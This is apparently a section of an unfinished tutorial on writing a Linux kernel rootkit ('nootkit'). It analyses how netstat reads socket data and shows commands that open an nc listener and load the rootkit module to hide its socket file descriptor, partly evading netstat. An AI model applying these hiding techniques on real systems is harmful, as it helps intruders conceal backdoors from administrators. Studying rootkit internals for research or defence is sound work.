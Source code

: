 # Nootkit Section 3

## `netstat` In The Kernel

From a quick `strace`, it seems that `netstat` first iterates over all `/proc/*/fd/*` entries,
`readlink`s each one (which probably yields some socket identifier as seen with the `readlink` shell
utility on such a link of a socket file descriptor),

And finally reads `/proc/net/{tcp, udp, ...}` to get details for each socket.

I read somewhere ([here](https://utcc.utoronto.ca/~cks/space/blog/linux/ReplacingNetstatNotBad)) that
the `ss` command, which is nowadays prevalent, uses *netlink sockets* to read socket metadata -
and that is a whole 'nother mechanism.

With all these APIs we have to make a choice (or just do 'em all I ain't scared).
I think it would make sense to stick to hiding from the `netstat` implementation alone for this section.

### What To Hook?

The age old question, asked in many forms throughout time by hackers and fishermen alike.

Do we hide from the procfs dirlist? Or maybe from the `/proc/net/*` outputs???

Luckily we already have a dirlist hider in our hands, and we can see if that capability is enough:

```sh
# start listening socket
nc -l 0.0.0.0 1337 &

netstat -anop | grep 1337
>>> tcp        0      0 0.0.0.0:1337            0.0.0.0:*               LISTEN      2119/nc              off (0.00/0/0)

# check /proc/pid/fd to see which inode/filename we need to hide from the dirlist
ls -li /proc/2119/fd
>>> total 0
>>> 29008 lrwx------ 1 root root 64 Jul  4 20:55 0 -> /dev/pts/0
>>> 29009 lrwx------ 1 root root 64 Jul  4 20:55 1 -> /dev/pts/0
>>> 29010 lrwx------ 1 root root 64 Jul  4 20:55 2 -> /dev/pts/0
>>> 29011 lrwx------ 1 root root 64 Jul  4 20:55 3 -> 'socket:[25736]'

# hide inode 29011 and rerun netstat to see if the socket is still visible
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_inodes=29011

# fd 3 is hidden
ls -li /proc/2119/fd
>>> total 0
>>> 29008 lrwx------ 1 root root 64 Jul  4 20:55 0 -> /dev/pts/0
>>> 29009 lrwx------ 1 root root 64 Jul  4 20:55 1 -> /dev/pts/0
>>> 29010 lrwx------ 1 root root 64 Jul  4 20:55 2 -> /dev/pts/0

netstat -anop | grep 1337
>>> tcp        0      0 0.0.0.0:1337            0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
```

Ah, if we only hide from the dirlist, `netstat` will still register the socket as being open, probably due to it
still being present in `/proc/net/tcp` - the only information lost is the socket's owning process, which
makes sense.

So either way, we'll have to hide from the various `/proc/net`s - additionaly hiding sockets from dirlists
may or may not be required.

### `/proc/net/*` Implementation

# UNFINISHED
